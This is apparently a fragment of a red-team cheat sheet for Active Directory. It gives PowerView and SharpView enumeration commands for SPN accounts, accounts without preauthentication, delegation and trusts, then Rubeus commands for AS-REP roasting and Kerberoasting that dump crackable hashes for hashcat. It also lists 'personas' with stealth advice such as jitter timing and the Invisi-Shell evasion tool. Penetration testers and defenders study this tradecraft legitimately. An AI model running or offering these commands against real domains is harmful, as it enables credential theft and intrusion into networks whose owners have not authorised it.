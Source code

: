 ### ⚔️ Offensive (PowerView/SharpView)
```powershell
Get-Domain | fl *
Get-DomainPolicy
Get-DomainUser -SPN -Properties samaccountname,serviceprincipalname | Select -First 10
Get-DomainUser -PreauthNotRequired | Select -Expand samaccountname
Get-DomainComputer -TrustedForDelegation
Get-DomainTrust
```
```cmd
SharpView.exe Get-DomainUser -SPN
SharpView.exe Get-DomainUser -PreauthNotRequired
```

### 🔴 Red Team (basic scope)
```cmd
Rubeus.exe asreproast /format:hashcat /outfile:asrep.hashes
Rubeus.exe kerberoast /outfile:roast.hashes /rc4opsec
```

---

## 🎭 **PERSONAS: REAL-WORLD EXECUTION PROFILES**

### 🕵️ Stealth Consultant (Production)
- Tools: MS AD Module + Invisi‑Shell
- Pattern: OU‑scoped filters, minimal properties, 3–6s jitter

### ⚡ Power User (Internal)
- Tools: PowerView + MS AD Module
- Pattern: Focused SPN/AS‑REP checks, 1–2s jitter

### 👑 Domain Admin (Lab)
- Tools: Full PowerView + Rubeus
- Pattern: Broad enumeration, minimal delay

## 🎨 **VISUAL MASTERY: BASIC KERBEROS CONTEXT**

```mermaid
flowchart LR
  A[AD Module] --> B[Domain/Forest]
  A --> C[Users/Computers]
  PV[PowerView] --> C
  PV --> D[SPN Users]
  PV --> E[PreauthNotRequired]
  RT[Red Team] --> F[AS-REP/Kerberoast]
  D --> F
  E --> F
```

**Purpose:** Shows how MS‑signed discovery feeds PowerView scoping which then guides red‑team sampling.
